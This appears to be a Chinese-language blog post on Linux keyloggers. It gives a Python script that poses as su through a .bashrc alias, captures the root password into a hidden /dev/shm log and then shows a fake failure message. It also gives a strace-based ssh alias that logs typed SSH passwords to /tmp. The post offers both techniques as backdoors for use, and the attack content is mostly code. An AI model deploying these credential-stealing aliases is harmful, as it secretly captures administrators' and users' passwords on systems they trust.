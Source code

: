 ```yaml
---
layout:     post
title:      "Keyboard Logger On Linux - Part 1"
subtitle:   "Serial"
date:       2016-12-23
author:     "Urahara"
header-img: "img/05f7a6edc6d63e4f97353f87fbb3d18d.jpg"
header-mask: 0.3
tags:
    - Keyboard Logger
    - Backdoor 



---
```


### alias su keylogger

在一个低权限用户目录下的.bashrc添加一句alias su='/usr/root.py'，低权限用户su root后成功记录密码，但使用这种方法后管理员无法正常su切换至root用户下，所以比较容易被管理员发现。密码记录路径请看脚本。 

```python
#!/usr/bin/python
# -*- coding: cp936 -*-

import os, sys, getpass, time

current_time = time.strftime("%Y-%m-%d %H:%M")
logfile="/dev/shm/.su.log"              //密码获取后记录在这里
#CentOS                 
#fail_str = "su: incorrect password"
#Ubuntu              
#fail_str = "su: Authentication failure"
#For Linux Korea                    //centos,ubuntu,korea 切换root用户失败提示不一样
fail_str = "su: incorrect password"
try:
	passwd = getpass.getpass(prompt='Password: ');
	file=open(logfile,'a')
	file.write("[%s]t%s"%(passwd, current_time))   //截取root密码
	file.write('n')
	file.close()
except:
	pass
time.sleep(1)
print fail_str                               //打印切换root失败提示
```

### alias ssh keylogger

同样编辑当前用户下的.bashrc文件,添加以下内容，然后使用source .bashrc 命令使配置生效，当ssh的时候,就会在tmp下面生成记录

```basic
alias ssh='strace -o /tmp/sshpwd-`date    '+%d%h%m%s'`.log -e read,write,connect  -s2048 ssh' 
```

